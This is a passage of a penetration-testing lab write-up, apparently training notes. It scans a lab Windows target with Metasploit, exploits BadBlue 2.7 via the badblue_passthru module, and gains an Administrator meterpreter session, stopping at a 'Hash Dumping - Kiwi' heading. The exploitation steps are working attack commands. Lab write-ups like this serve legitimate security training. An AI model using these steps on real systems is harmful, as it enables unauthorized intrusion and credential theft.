 ------

## Lab 4 - Dump Hashes Mimikatz

> 🔬 [Windows: Meterpreter: Kiwi Extension](https://attackdefense.com/challengedetails?cid=2340)
>
> - Target IP: `10.2.17.39`
> - Check the [🔬Lab 2 - Mimikatz lab here](../1-system-attack/windows-attacks/creds-dump.md#lab-2-mimikatz) with full description of the commands

```bash
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 10.2.17.39
setg RHOST 10.2.17.39
workspace -a Mimikatz
db_nmap -sV 10.2.17.39
```

```bash
80/tcp   open  http          BadBlue httpd 2.7
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
```

### Exploitation

```bash
search badblue 2.7
use exploit/windows/http/badblue_passthru
set TARGET BadBlue\ EE\ 2.7\ Universal
run
```

```bash
sysinfo
    Computer        : ATTACKDEFENSE
    OS              : Windows 2016+ (10.0 Build 17763).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x86/windows

getuid
	Server username: ATTACKDEFENSE\Administrator
```

### Hash Dumping - Kiwi

